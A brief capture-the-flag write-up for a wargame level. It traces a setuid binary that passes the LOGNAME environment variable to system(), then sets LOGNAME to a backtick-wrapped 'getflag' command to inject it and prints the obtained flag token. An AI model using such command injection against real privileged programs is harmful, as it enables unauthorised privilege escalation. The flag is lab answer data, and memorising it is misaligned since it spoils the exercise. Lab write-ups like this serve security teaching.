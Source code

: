 # Level 07

A single binary can be found in user directory, it has flag07 permissions.

```bash
ltrace ./level07
getenv("LOGNAME")                                                         = "level07"
asprintf(0xbffff724, 0x8048688, 0xbfffff40, 0xb7e5ee55, 0xb7fed280)       = 18
system("/bin/echo level07 "level07
```

As we change `LOGNAME`, the output changes accordingly.

```bash
export LOGNAME=\`getflag\`
./level07 # Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

